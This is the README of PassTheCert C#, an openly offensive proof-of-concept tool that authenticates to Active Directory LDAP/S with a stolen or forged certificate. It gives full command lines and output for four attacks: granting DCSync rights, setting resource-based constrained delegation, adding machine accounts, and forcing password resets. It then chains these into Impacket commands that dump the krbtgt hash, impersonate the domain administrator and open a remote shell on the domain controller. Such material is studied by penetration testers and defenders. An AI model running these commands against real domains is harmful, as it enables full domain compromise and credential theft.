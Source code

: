 # PassTheCert C#

## Presentation

This tool is a C# Proof-of-Concept allowing an attacker to use a certificate
to authenticate to an LDAP/S server through Schannel.

## Building

Simply build the solution with Visual Studio.

## Usage

Here are the general options for `PassTheCert`. Attack specific options are
given below.

```console
C:\> .\PassTheCert.exe --help
PassTheCert.exe [--help] --server DOMAIN_CONTROLLER [--start-tls] --cert-path CERT_PATH [--cert-password CERT_PASSWORD] (--elevate|--rbcd|--add-computer) [ATTACK_OPTIONS]
GENERAL OPTIONS:
        --server DOMAIN_CONTROLLER
                Domain controller to connect to. By default, connection will be done over TCP/636 (LDAPS).
        --start-tls
                Indicates that connection should instead be done over TCP/389 (LDAP) and then use StartTLS.
        --cert-path CERT_PATH
                Path to the certificate to authenticate with.
        --cert-password CERT_PASSWORD
                Password to the certificate (Optional argument. Default value: <empty>).

ATTACK TYPE:
        --elevate
                Elevate the rights of a user on the domain. Will grant DS-Replication-Get-Changes and DS-Replication-Get-Changes-All rights.
        --rbcd
                Adds an SID to the msDS-AllowedToActOnBehalfOfOtherIdentity arttribute of the target.
        --add-computer
                Add a new computer to the domain (useful for RBCD attacks).
        --reset-password
                Reset the password of the targeted account (requires the User-Force-Change-Password right).
```

### Elevate user

The options for this attack are:

```
ELEVATE ATTACK OPTIONS: --target TARGET (--sid SID|--restore RESTORE_FILE)
        --target TARGET
                Target of the attack. Should be the distinguished name of the domain.
        --sid SID
                SID to elevate.
        --restore RESTORE_FILE
                File from which to restore the msDS-nTSecurityDescriptor attribute.
                You can use --restore clear to clear the attribute.
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\exchange_server.pfx --elevate --target "DC=contoso,DC=com" --sid S-1-5-21-863927164-4106933278-53377030-2627
nTSecurityDescriptor attribute exists. Saving old value to disk.
You can restore it using arguments:
        --target "DC=contoso,DC=com" --restore DC=contoso,DC=com_nTSecurityDescriptor_20220428T144216Z.txt
Success
```

You can see that the previous value of `nTSecurityDescriptor` was saved to a
file. **Do not lose it** so that you can restore the previous value once your
attack is done.

You can now perform DCSync with the account with SID `S-1-5-21-863927164-4106933278-53377030-2627`:

```console
$ secretsdump.py -just-dc-ntlm -just-dc-user krbtgt "contoso.com/stormtroopers:$PASSWORD@srv-ad.contoso.com"
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:201b0450d2fba51c****************:::
[*] Cleaning up...
```

To restore the previous `nTSecurityDescriptor` on the domain object, use the
command given by the tool:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --elevate --target "DC=contoso,DC=com" --restore '.\DC=contoso,DC=com_nTSecurityDescriptor_20220428T144216Z.txt'
Restoring nTSecurityDescriptor attribute from file .\DC=contoso,DC=com_nTSecurityDescriptor_20220428T144216Z.txt.
Success
```

### RBCD

The options for this attack are:

```
RBCD ATTACK OPTIONS: --target TARGET (--sid SID|--restore RESTORE_FILE)
        --target TARGET
                Target of the attack. Should be the distinguished name of the computer.
        --sid SID
                SID to grant RBCD rights to.
        --restore RESTORE_FILE
                File from which to restore the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
                You can use --restore clear to clear the attribute.
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\srv-ad.pfx --rbcd --target "CN=SRV-AD,OU=Domain Controllers,DC=contoso,DC=com" --sid S-1-5-21-863927164-4106933278-53377030-3131
msDS-AllowedToActOnBehalfOfOtherIdentity attribute is empty
You can clear it using arguments:
        --target "CN=SRV-AD,OU=Domain Controllers,DC=contoso,DC=com" --restore clear
Success
```

You can now perform an [RBCD attack](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)
against the target:

```console
$ getST.py -spn "cifs/srv-ad.contoso.com" -impersonate Administrateur "contoso.com/desktop-1337$:$PASSWORD"
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrateur
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrateur.ccache
$ export KRB5CCNAME=Administrateur.ccache
$ wmiexec.py -k -no-pass contoso.com/Administrateur@srv-ad.contoso.com                                                            
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
contoso\administrateur
```

Similar to the [Elevate attack](#elevate-user) attack, you have a `--restore`
option to restore the previous value of the `msDS-AllowedToActOnBehalfOfOtherIdentity`
attribute of the target. If the previous value is not empty, it will be saved
to disk. It if was empty, you can use ``--restore clear` to restore the
attribute to its empty value.

### Add computer

The options for this attack are:

```
ADD COMPUTER ATTACK OPTIONS: --computer-name COMPUTER_NAME [--computer-password COMPUTER_PASSWORD]
        --computer-name COMPUTER_NAME
                The name of the computer to add.
        --computer-password COMPUTER_PASSWORD
                The password of the new computer (Optional argument. Default value: <random value>).
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\stormtroopers.pfx --add-computer --computer-name DESKTOP-1337$ --computer-password "P@ssword01"
Success
```

If no password is provided, a random one will be generated:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\stormtroopers.pfx --add-computer --computer-name DESKTOP-1337$
No password given, generating random one.
Generated password: hqMELrSZXLyOQ1KGLQQoxE7LM78dU9Mb
Success
```

### Reset password

The options for this attack are:

```
RESET PASSWORD ATTACK OPTIONS: --target TARGET [--new-password NEW_PASSWORD]
        --target TARGET
                Target of the attack. Should be the distinguished name of the account.
        --new-password new_PASSWORD
                The new password of the account (Optional argument. Default value: <random value>).
```

Here's an example of usage:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --reset-password --target "CN=Stormtroopers,OU=Empire,OU=Utilisateurs,DC=contoso,DC=com" --new-password P@ssword01
Success
```

If no password is provided, a random one will be generated:

```console
C:\> .\PassTheCert.exe --server srv-ad.contoso.com --cert-path Z:\skywalker.pfx --reset-password --target "CN=Stormtroopers,OU=Empire,OU=Utilisateurs,DC=contoso,DC=com"
No password given, generating random one.
Generated password: m6QQ3OfbULmyiwBsNJS9NzvlVER8rWj7
Success
```


